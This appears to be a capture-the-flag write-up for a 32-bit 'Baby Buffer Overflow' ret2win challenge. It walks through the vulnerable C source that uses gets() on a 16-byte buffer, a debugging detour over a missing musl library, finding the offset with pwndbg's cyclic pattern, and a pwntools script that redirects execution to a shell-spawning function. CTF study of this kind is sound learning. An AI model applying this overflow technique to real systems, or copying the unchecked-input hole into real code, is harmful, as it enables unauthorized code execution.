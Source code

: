 ```yaml
---
title: Baby Buffer Overflow - 32bit
author: saturn
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```



![](../../assets/dom-images/logo.jpg)

## Description

Author: @aenygma

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

Press the Start button on the top-right to begin this challenge.
Attachments: 

`babybufov`, `babybufov.c`

## Solution

We're given a source file, `babybufov.c`, containing this:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

So, we can see that this is a ret2win, so this is trivial! Let's just get the addresses we need in `gdb`, and then we have an easy flag!

```bash
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Starting program: /home/strn/babybufov
zsh:1: no such file or directory: /home/strn/babybufov
During startup program exited with code 127.
pwndbg>
```

... the fuck?


Turns out, this is not an issue of the executables location. We can run `file` against it with no problem, but executing the file somehow makes it nonexistent again? 

Turns out, this is a problem of the libraries of the executable. We can use `ldd` to check which libraries it tries to link to.
```
$ ldd babybufov
	linux-gate.so.1 (0xeefe9000)
	libc.musl-x86.so.1 => not found
```

Alright, so we have the linux-gate.so.1, but we're missing MUSL. Installing MUSL via `sudo pacman -S musl` doesn't fix our problem, so what we have to do is install MUSL via the AUR via `paru -S aur/i386-musl`.

Let's go back to GDB.

```bash
$  gdb-pwndbg ./babybufov
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Gimme some data!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
# SNIP
00:0000│ esp 0xffffd0d0 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```

We can get the offset by using the `cyclic` function.

```bash
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

Because this is a 32-bit binary, we have to subtract 4 bytes from what we get here, so the offset is *actually* 28. 

Here's the solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./babybufov')

exe = context.binary

payload = b'A' * 28
payload += p32(0x8049006) # objdump -d ./babybufov | rg "ret"
payload += p32(exe.symbols['target'])


io = process()

io.sendline(payload)

io.interactive()
```


---
**Dombusters**: _Writeup written by saturn_
